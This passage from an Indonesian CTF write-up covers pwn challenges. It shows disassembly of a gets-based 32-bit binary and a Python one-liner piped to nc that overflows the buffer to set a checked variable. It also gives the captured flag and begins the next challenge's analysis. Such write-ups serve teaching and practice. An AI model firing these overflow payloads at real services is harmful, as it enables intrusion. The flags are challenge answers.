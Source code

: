 Sama dengan soal ```buffer1```, binary ini menggunakan ```gets``` untuk mengambil inputan yang diberi ukuran sebesar ```0x90```.

```py
 0x08048555 <+57>: cmp    DWORD PTR [ebp-0xc],0x13377331
 0x0804855c <+64>: jne    0x8048576 <main+90>
 0x0804855e <+66>: cmp    DWORD PTR [ebp-0x10],0x0
 0x08048562 <+70>: jne    0x8048576 <main+90>
```

Tetapi, dalam binary ini, ada 2 validasi yang harus dilalui.
1. `ebp-0xc` harus bernilai `0x13377331`
2. `ebp-0x10` harus bernilai `0x0`

### Exploit

Sama seperti soal [Buffer 1](http://127.0.0.1:4000/write-ups/asgama-ctf-pwn-writeup/#buffer1-50-pts), hanya ada beberapa yang perlu dikalkulasi ulang.
- Padding disini diganti dengan `0x0`.
- Panjang padding `0x90 - 0xc = 0x84 (132 dalam desimal)`


```sh
$ python -c 'print "\x00"*132 + "\x31\x73\x37\x13"' | nc asgama.web.id 40210
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}
```
### Flag
`GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}`  



## EZ 2 [150 pts]

Diberikan file ELF-32 bit [hehe](https://github.com/abdullahnz/Writeup/blob/master/AsgamaCTF/hehe) not stripped dan service  ```asgama.web.id:40209```
```sh
$ file hehe
hehe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91febecb162e2e4c737a82cd97f7f38040c28e55, not stripped
```

Dalam fungsi `main` hanya memanggil fungsi `hah` dan berikut hasil disassemble fungsi `hah` pada binary.

```py
gdb-peda$ pdisas hah
Dump of assembler code for function hah:
   0x0804854e <+0>:  push   ebp
   0x0804854f <+1>:  mov    ebp,esp
   0x08048551 <+3>:  sub    esp,0x48
   0x08048554 <+6>:  sub    esp,0xc
   0x08048557 <+9>:  lea    eax,[ebp-0x48]
   0x0804855a <+12>: push   eax
   0x0804855b <+13>: call   0x8048390 <gets@plt>
   0x08048560 <+18>: add    esp,0x10
   0x08048563 <+21>: nop
   0x08048564 <+22>: leave  
   0x08048565 <+23>: ret    
End of assembler dump.
```
